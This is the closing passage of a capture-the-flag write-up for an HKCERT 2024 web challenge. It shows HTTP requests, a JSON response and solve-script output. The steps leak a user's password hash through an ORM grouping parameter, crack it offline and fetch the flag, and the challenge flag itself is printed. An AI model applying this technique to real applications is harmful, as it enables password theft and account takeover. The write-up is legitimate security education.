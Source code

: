```http
GET /api/attempts/?group=flag HTTP/1.1
Host: localhost:5000
Cookie: session=.eJwdzjkOwjAQAMC_uKawN97DfCbaU9AmUCH-TkQz9XzaXkeej3Z_He-8tf0Z7d5iSqFPhzGLldwXGthlcWD1oIK-UVe3JaWkzEldZED0IiYbomKmPAZjiHSe6GtTYU1EWZ5kHhYIzGCb5iTrwZ6-yA3A2xV5n3n8N_D9AaPmL_w.ZzmqTQ.0Z8KDr2IXGEMIfrdwq4jWs8x3Io


```

Response data:

```json
{"attempts":{"hkcert24{this_is_a_test_flag_1}":[{"challenge_id":1,"id":1,"is_correct":true,"user_id":2}]}}
```

We got the flag locally! Let's write a Python solve script to get the real flag on the remote instance!

**Steps:**
1. Register a new account
2. Leak `player`'s password hash via sending a GET request to `/api/me/?group=password`
3. Brute force `player`'s password hash in offline
4. Login as `player` with the cracked password
5. Get the flag via sending a GET request to `/api/attempts/?group=flag`

<details><summary><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/Mystiz's-Mini-CTF-(1))-[2024.11.17|16:45:41(HKT)]
└> python3 solve.py       
[+] Password hash: 77364c85.744c75c952ef0b49cdf77383a030795ff27ad54f20af8c71e6e9d705e5abfb94
[*] Trying password: 7df71e
[+] Found correct password: 7df71e
[+] Flag: hkcert24{y0u_c4n_9r0up_unsp3c1f13d_4t7r1bu73s_fr0m_th3_4tt3mp7_m0d3l}
```

- **Flag: `hkcert24{y0u_c4n_9r0up_unsp3c1f13d_4t7r1bu73s_fr0m_th3_4tt3mp7_m0d3l}`**

## Conclusion

What we've learned:

1. Leaking ORM model attributes
